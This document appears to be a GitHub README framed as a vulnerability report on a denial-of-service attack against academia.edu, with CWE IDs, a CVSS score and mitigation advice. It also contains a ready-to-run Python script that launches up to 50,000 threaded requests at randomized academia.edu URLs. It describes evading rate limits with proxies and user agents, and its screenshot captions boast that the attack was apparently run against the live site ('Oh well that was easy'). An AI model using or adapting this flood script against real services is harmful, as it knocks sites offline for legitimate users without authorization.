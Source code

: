 # Skooled
### Ddos for Academina.edu

### Title: DDoS by Resource Exhaustion Using Proxies and User Agents Bypassing Rate Limits

Description: This report describes a Distributed Denial of Service (DDoS) attack targeting academia.edu, where multiple requests are generated to exhaust server resources. The attack leverages randomized URL generation, multiple proxy addresses, and varying user-agent headers to bypass rate-limiting mechanisms. By generating high-volume requests in rapid succession, the attack attempts to exhaust server resources, resulting in a denial of service for legitimate users.


---

Vulnerability Details:

Attack Type: Distributed Denial of Service (DDoS) by Resource Exhaustion

Affected Platform: Academia.edu

Script Used: Python-based script (skooed.py) that generates random URLs, bypasses rate limits, and utilizes threading for high-volume concurrent requests.


Steps of the Attack:

1. Random URL Generation: The script randomly generates URLs using a combination of pre-defined base URLs and random 7-digit numerical strings, creating a large number of unique requests.


2. Threading for Concurrency: By using threading, the script launches multiple concurrent requests (up to 50,000 threads in this instance), resulting in a massive spike in request volume.


3. Resource Exhaustion: The rapid and massive influx of requests aims to overload the server resources (CPU, memory, bandwidth) and cause slowdowns or unavailability.


4. Rate Limit Bypass: The script can be modified with proxies and varying user agents to evade rate-limiting restrictions that would otherwise prevent excessive requests from the same IP.




---

CWE IDs:

CWE-400: Uncontrolled Resource Consumption - Excessive requests lead to resource exhaustion, impacting server availability.

CWE-770: Allocation of Resources Without Limits or Throttling - Lack of adequate rate limiting on academia.edu’s platform.

CWE-829: Inclusion of Functionality from Untrusted Control Sphere - Potential exploitation of unauthenticated resources due to improper rate limiting.



---

CVSS Score Calculation: Based on the characteristics of this DDoS attack, the CVSS (Common Vulnerability Scoring System) score would be calculated as follows:

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): None (N)

Integrity (I): None (N)

Availability (A): High (H) – Severe impact on availability due to resource exhaustion.


CVSS Score: 7.5 (High)

This score reflects the significant impact on availability and the low difficulty in executing this type of attack.


---

Mitigation Recommendations:

1. Rate Limiting and Throttling: Implement strict rate-limiting mechanisms based on IP addresses, user agents, and request patterns to detect and block excessive requests.


2. CAPTCHA Challenges: Enforce CAPTCHA or other challenge mechanisms for unusual access patterns to limit bot-based requests.


3. Web Application Firewall (WAF): Deploy a WAF to identify and block abnormal request patterns that indicate DDoS attempts.


4. Load Balancing and Autoscaling: Use load balancers to distribute traffic efficiently and enable autoscaling to handle sudden traffic spikes without exhausting resources.


5. Monitoring and Alerts: Continuous monitoring of server health and unusual traffic patterns can help detect early signs of resource exhaustion and trigger defensive actions.




---

PoC script:

```python
import requests
import threading
import random
import time

# List of base URLs to test
base_urls = [
    "https://www.academia.edu/10",
    "https://www.academia.edu/11"
]

# Function to generate a URL with a random 7-digit numerical string
def generate_random_url():
    base_url = random.choice(base_urls)  # Randomly select a base URL
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(7)])
    return f"{base_url}{random_digits}"

# Function to make a request to the generated URL
def make_request():
    url = generate_random_url()
    try:
        response = requests.get(url)
        print(f"Requested: {url} | Status Code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Request failed for {url}: {e}")

# Main function to create threads and run multiple requests concurrently
def run_concurrent_requests(num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=make_request)
        threads.append(thread)
        thread.start()
        time.sleep(0.1)  # slight delay to stagger requests

    for thread in threads:
        thread.join()

# Run the script with the desired number of threads
if __name__ == "__main__":
    num_threads = 50000  # Adjust the number of concurrent requests as needed
    run_concurrent_requests(num_threads)
```

![Attck PoC in terminal.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000810.png)

![Attack underway to test.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000824.png)

![🤣🤣 Oh well that was easy.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241109-235531.png)
